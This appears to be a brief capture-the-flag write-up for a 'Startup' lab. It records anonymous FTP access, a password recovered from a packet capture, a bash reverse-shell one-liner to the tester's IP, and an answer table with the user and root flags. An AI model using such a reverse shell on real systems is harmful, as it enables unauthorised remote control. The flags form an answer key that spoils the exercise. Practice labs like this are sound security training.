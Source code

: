 # Startup

ip : `10.10.148.231`

loged in as anonymous over ftp and download `notice.txt` and `important.jpg`

got www-data password `c4ntg3t3n0ughsp1c3` from the suspicious.pcapng file

getting a netcat session 
```
bash -c 'exec bash -i &>/dev/tcp/10.17.48.110/1235 <&1'
```

| Questions | Answers |
|-----------|---------|
| What is the secret spicy soup recipe? | love |
| What are the contents of user.txt | THM{03ce3d619b80ccbfb3b7fc81e46c0e79} |
| What are the contents of root.txt | THM{f963aaa6a430f210222158ae15c3d76d} |
